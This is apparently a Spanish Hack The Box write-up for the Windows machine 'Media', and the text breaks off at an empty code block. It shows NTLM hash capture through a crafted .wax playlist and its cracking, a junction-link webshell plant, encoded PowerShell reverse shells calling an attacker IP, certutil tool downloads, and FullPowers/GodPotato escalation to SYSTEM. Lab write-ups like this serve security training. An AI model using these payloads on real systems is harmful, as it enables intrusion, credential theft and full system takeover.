___
Tags: #medium #htb #godpotato #fullpower #SeImpersonatePrivilege
___
# Media

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 18/08/2026 <br>
**- Enlace:** [https://app.hackthebox.com/machines/Media](Media)

## Usuarios identificados

### Tabla de Usuarios Identificados y Cadena de Privilegios

| **Usuario / Cuenta**                                             | **Método de Obtención / Vector de Ataque**                                                                                                                                                                                         | **Nivel de Privilegio**                                                                                                              |
| ---------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| **`enox`**                                                       | Captura y crackeo de hash NTLMv2. Se subió un archivo playlist `.wax` vulnerable que obligó al sistema a conectarse vía SMB a una instancia de _Responder_, capturando su hash. Posteriormente se descifró con `hashcat`.          | Usuario local básico / Unprivileged. Permite acceso por SSH y lectura del directorio `C:\Users\enox`.                                |
| **`nt authority\local service`**                                 | Explotación del script vulnerable `review.ps1` en la tarea automatizada. Se utilizó un enlace simbólico/unión (`mklink /J`) hacia la raíz web (`C:\xampp\htdocs`) para subir una _webshell_ PHP (`shell.php`) y ejecutar comandos. | Cuenta de servicio local de Windows. Inicialmente sin privilegios elevados (privilegios como `SeImpersonatePrivilege` restringidos). |
| **`nt authority\local service`** _(Con Privilegios Restaurados)_ | Ejecución de la herramienta **FullPowers.exe**. Esta herramienta crea una tarea programada que restaura la configuración por defecto de los permisos de la cuenta.                                                                 | Cuenta de servicio con privilegios especiales rehabilitados (específicamente **`SeImpersonatePrivilege`**).                          |
| **`nt authority\system`**                                        | Explotación de `SeImpersonatePrivilege` utilizando la herramienta **GodPotato** (`GodPotato-NET4.exe`). Permite suplantar el token de seguridad del sistema operativo.                                                             | **SYSTEM** (Máximo nivel de privilegio dentro del sistema operativo Windows). Control total sobre la máquina objetivo.               |

## Listado de Vulnerabilidades Identificadas

- **Vulnerabilidad de Leak de Credenciales NTLM vía Archivos de Reproducción (`.wax` / Windows Media Player):** El formulario web permite la subida de archivos que son procesados automáticamente por Windows Media Player. Al subir una lista de reproducción `.wax` con una referencia SMB hacia la máquina atacante (`file://IP\test\dani.mp3`), el sistema objetivo intenta autenticarse contra el recurso remoto, filtrando el hash NTLMv2 del usuario `enox`.
    
- **Contraseñas Débiles / Inseguras en Entornos de Red:** El hash NTLMv2 capturado de `enox` utiliza una contraseña extremadamente débil (`1234virus@`), la cual fue fácilmente crackeada mediante un ataque de fuerza bruta/diccionario con la lista de palabras `rockyou.txt`.
    
- **Permisos Inseguros en Directorios Compartidos / Tareas Automatizadas:** La carpeta `C:\Windows\Tasks\Uploads\` posee permisos de escritura para usuarios locales de bajo privilegio como `enox`. Esta falta de control de acceso permite modificar o inyectar archivos que son leídos directamente por procesos en segundo plano.
    
- **Validación Insuficiente y Control de Acceso Inadecuado en Scripts Automáticos (`review.ps1`):** El script en PowerShell lee constantemente el archivo `todo.txt` para ejecutar procesos sin validar adecuadamente los datos de entrada ni la manipulación de rutas. Esto expone el sistema a manipulación arbitraria de archivos e interacciones no autorizadas.
    
- **Ataque de Redirección mediante Enlace de Unión (`Junction Link` / `mklink /J`):** Aprovechando la falta de validación del script y los permisos de escritura en la carpeta de subidas, es posible crear un enlace de unión (`mklink /J`) que apunta directamente hacia la raíz web del servidor (`C:\xampp\htdocs`). Esto permite publicar archivos maliciosos (como una webshell `shell.php`) en el servidor web Apache/PHP y lograr **Ejecución Remota de Comandos (RCE)** bajo la cuenta `nt authority\local service`.
    
- **Asignación Insegura de Privilegios de Token (`SeImpersonatePrivilege`):** La cuenta de servicio posee habilitado el privilegio de suplantación de identidad (`SeImpersonatePrivilege`), recuperable mediante la herramienta `FullPowers.exe`. Esta configuración permite a cuentas de servicio de bajo privilegio elevar de manera directa su acceso al nivel máximo del sistema operativo (`nt authority\system`) utilizando exploits de suplantación de token DCOM/RPC como **GodPotato**.

## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.52.39**
### Ping

```
ping -c 1 10.129.52.39
```

<p align="center">

</p>

**Su ttl es 128. Por tanto es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.129.52.39
```

```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-18T14:02:21+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2026-08-17T13:53:33
|_Not valid after:  2027-02-16T13:53:33
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
```

| Open port/tcp | Service       | Version                                     |
| ------------- | ------------- | ------------------------------------------- |
| 22            | ssh           | OpenSSH for_Windows_9.5 (protocol 2.0)      |
| 80            | http          | Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t |
| 3389          | ms-wbt-server | Microsoft Terminal Services                 |

#### Website - 80 TCP

El sitio web pertenece a una empresa de servicios web.

<p align="center">

</p>

Lo único interesante es el formulario al final:

<p align="center">

</p>

Si subo una imagen **.jpeg** me dice lo siguiente: "Tu solicitud se ha enviado correctamente. Nuestro departamento de Recursos Humanos revisará tu vídeo y se pondrá en contacto contigo."

<p align="center">

</p>

Luego termina diciendo "Sube un breve vídeo de presentación (compatible con Windows Media Player)"

## Explotación

### Shell como enox

#### Investigación

En el siguiente [post](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/) comenta sobre la subida de archivos que parece ser el punto de ataque más probable. Al buscar formas de atacar Windows Media Player, encontraré un artículo de Morphisec titulado "Escalada de privilegios NTLM: Las vulnerabilidades no parcheadas de Microsoft que nadie menciona".

En ese artículo te deja un ejemplo de como crear un archivo **.wax** en el paso 4.

<p align="center">

</p>

Por tanto, el mío lo dejo así:

<p align="center">

</p>

```
<asx version="3.0">
        <title>Leak</title>
        <entry>
                <title></title>
                <ref href="file://10.10.14.188\test\dani.mp3"/>
        </entry>
</asx>
```

La idea ahora es usar antes el comando de responder y luego subir mi archivo **.wax** Entorno a 1 minuto nos llegará el regalito

```
sudo responder -I tun0 -v
```

<p align="center">

</p>

```
enox::MEDIA:c87828a7a077ff58:F7BA61F8D8CB194897DB58E1F2E7F418:010100000000000080DFFC753D2FDD01E82B47BAED2B96780000000002000800570031003100370001001E00570049004E002D005000520032004C004B00500057004D0041005800460004003400570049004E002D005000520032004C004B00500057004D004100580046002E0057003100310037002E004C004F00430041004C000300140057003100310037002E004C004F00430041004C000500140057003100310037002E004C004F00430041004C000700080080DFFC753D2FDD01060004000200000008003000300000000000000000000000003000008F2174D336DFFC5B56088ED7979F1B3B58EAFC2DE1AE6AC680B6681996410D500A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380038000000000000000000
```

Guardo este hash en un archivo llamado **enoxhash**. Luego usaré hashcat para descifrar la contraseña.

```
hashcat enoxhash /usr/share/wordlists/rockyou.txt
```

> 1234virus@

Por tanto la nueva credencial quedaría **enox**:**1234virus@**

#### SSH

```
ssh enox@10.129.52.39
```

<p align="center">

</p>

## Escalada de Privilegios

### Shell como un local de servicio

#### Enumeración

Investigando en la carpeta de **enox** en documentos me encuentro un script llamado **review.ps1** cuyo contenido es:

```
function Get-Values {
    param (
        [Parameter(Mandatory = $true)]
        [ValidateScript({Test-Path -Path $_ -PathType Leaf})]
        [string]$FilePath
    )

    # Read the first line of the file
    $firstLine = Get-Content $FilePath -TotalCount 1

    # Extract the values from the first line
    if ($firstLine -match 'Filename: (.+), Random Variable: (.+)') {
        $filename = $Matches[1]
        $randomVariable = $Matches[2]

        # Create a custom object with the extracted values
        $repoValues = [PSCustomObject]@{
            FileName = $filename
            RandomVariable = $randomVariable
        }

        # Return the custom object
        return $repoValues
    }
    else {
        # Return $null if the pattern is not found
        return $null
    }
}

function UpdateTodo {
    param (
        [Parameter(Mandatory = $true)]
        [ValidateScript({Test-Path -Path $_ -PathType Leaf})]
        [string]$FilePath
    )

    # Create a .NET stream reader and writer
    $reader = [System.IO.StreamReader]::new($FilePath)
    $writer = [System.IO.StreamWriter]::new($FilePath + ".tmp")

    # Read the first line and ignore it
    $reader.ReadLine() | Out-Null

    # Copy the remaining lines to a temporary file
    while (-not $reader.EndOfStream) {
        $line = $reader.ReadLine()
        $writer.WriteLine($line)
    }

    # Close the reader and writer
    $reader.Close()
    $writer.Close()

    # Replace the original file with the temporary file
    Remove-Item $FilePath
    Rename-Item -Path ($FilePath + ".tmp") -NewName $FilePath
}

$todofile="C:\\Windows\\Tasks\\Uploads\\todo.txt"
$mediaPlayerPath = "C:\Program Files (x86)\Windows Media Player\wmplayer.exe"


while($True){

    if ((Get-Content -Path $todofile) -eq $null) {
        Write-Host "Todo is empty."
        Sleep 60 # Sleep for 60 seconds before rechecking
    }
    else {
        $result = Get-Values -FilePath $todofile
        $filename = $result.FileName
        $randomVariable = $result.RandomVariable
        Write-Host "FileName: $filename"
        Write-Host "Random Variable: $randomVariable"

        # Opening the File in Windows Media Player
        Start-Process -FilePath $mediaPlayerPath -ArgumentList "C:\Windows\Tasks\uploads\$randomVariable\$filename"

        # Wait for 15 seconds
        Start-Sleep -Seconds 15

        $mediaPlayerProcess = Get-Process -Name "wmplayer" -ErrorAction SilentlyContinue
        if ($mediaPlayerProcess -ne $null) {
            Write-Host "Killing Windows Media Player process."
            Stop-Process -Name "wmplayer" -Force
        }

        # Task Done
        UpdateTodo -FilePath $todofile # Updating C:\Windows\Tasks\Uploads\todo.txt
        Sleep 15
    }

}
```

Resulta que este script tiene una **vulnerabilidad crítica de seguridad** (específicamente, un fallo de **Control de Acceso / Path Traversal / Manipulación de Archivos** o la posibilidad de **Ejecución de Código Arbitrario** dependiendo de los permisos y de cómo se manipule el contenido de `todo.txt`).

**El problema:** El script lee de forma continua un archivo de texto plano (`todo.txt`) ubicado en una ruta compartida o accesible (`C:\Windows\Tasks\Uploads\`). Si un usuario sin privilegios o un atacante tiene permisos de escritura en esa carpeta (algo común en tareas automatizadas o directorios de subida), puede modificar el contenido de `todo.txt` con los valores que desee.

En `C:\Windows\Tasks\Uploads` , encontraré un directorio vacío ( `todo.txt` ), junto con algunas carpetas que parecen ser hashes MD5.

<p align="center">

</p>

Resulta que esos hashes son archivos que tu has subido antes desde la página.

El sitio web se encuentra alojado en **C:\xampp\htdocs** esto es importante por el ataque que vamos a llevar a continuación.

#### POC

A continuación, el vector de ataque consistirá en un **ataque de redirección mediante un enlace de unión (`mklink /J`)** que apunta a la raíz web (`C:\xampp\htdocs`), obligando al script privilegiado a interactuar con los archivos del servidor web.

En primer lugar subiremos un archivo **shell.php** 

<p align="center">

</p>

Ese archivo se le adjudicará un hash que será el siguiente **d41d8cd98f00b204e9800998ecf8427e**

<p align="center">

</p>

Como observaremos **el ataque de redirección mediante un enlace de unión** no se lleva acabo porque ya existe, para ello antes habría que eliminar el hash **d41d8cd98f00b204e9800998ecf8427e** como sabemos que ese hash es de **shell.php**. Antes preparamos **el ataque de redirección mediante un enlace de unión** 

```
cmd /c mklink /J C:\Windows\Tasks\Uploads\d41d8cd98f00b204e9800998ecf8427e C:\xampp\htdocs
```

<p align="center">

</p>

Luego, volvemos subir el archivo **shell.php**. Por tanto en la ruta **C:\xampp\htdocs** visualizaremos dicho archivo.

<p align="center">

</p>

Si realizo una prueba:

```
curl -G "http://10.129.52.39/shell.php" --data-urlencode "cmd=whoami"
```

<p align="center">

</p>

Lo que haremos a continuación es irnos a esta pagina [reverseshell](https://www.revshells.com/) nos iremos al apartado **Reverse** - **PowerShell #3 (base64)** esto lo que nos ayudara es crearnos el payload para luego lanzarlo y obtener así la sesión de **nt authority\local service**

```
curl -G http://10.129.52.39/shell.php --data-urlencode 'cmd=powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA4ADgAIgAsADQANAA0ADUAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
```

<p align="center">

</p>

### Shell como SYSTEM

Esperaría que el usuario local que está ejecutando el servidor web tuviera el usuario " `SeImpersonatePrivilege` ", pero no aparece en la línea de comandos.

<p align="center">

</p>

Estos privilegios han sido limitados para evitar su uso indebido.

#### FullPowers.exe

Existe una herramienta útil llamada [FullPowers](https://github.com/itm4n/FullPowers/releases/tag/v0.1), que permite restaurar la configuración predeterminada de permisos para la cuenta, creando y ejecutando una tarea programada.

```
certutil.exe -urlcache -f http://10.10.14.188/FullPowers.exe .\FullPowers.exe
```

Ahora, simplemente lo ejecuto con la opción " `-c` " y una "shell" inversa, y la opción " `-z` " para no interactividad. Consigo este payload aquí [reverseshell](https://www.revshells.com/)

```
.\FullPowers.exe -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA4ADgAIgAsADQANAA0ADYAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA' -z
```

Antes de lanzar el comando activo el puerto de escucha:

```
rlwrap -cAr nc -lnvp 4446
```

A continuación, obtengo la misma sesión pero con la diferencia de obtener todos los privilegios habilitados entre ellos el que mas me interesa **SeImpersonatePrivilege**

<p align="center">

</p>

#### GodPotato

Para explotar `SeImpersonatePrivilege` , utilizaré [GodPotato](https://github.com/BeichenDream/GodPotato/releases). Descargaré la última versión y la subiré a Media:

<p align="center">

</p>

Trasladamos el archivo  **GodPotato-NET4.exe** al sistema objetivo.

```
certutil.exe -urlcache -f http://10.10.14.188/GodPotato-NET4.exe .\GodPotato-NET4.exe
```

Como hicimos anteriormente en esta pagina [reverseshell](https://www.revshells.com/) nos ayudará a construir el payload.

```
.\GodPotato-NET4.exe -cmd 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA4ADgAIgAsADQANAA1ADAAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
```

Antes de lanzar el comando activo el puerto de escucha:

```
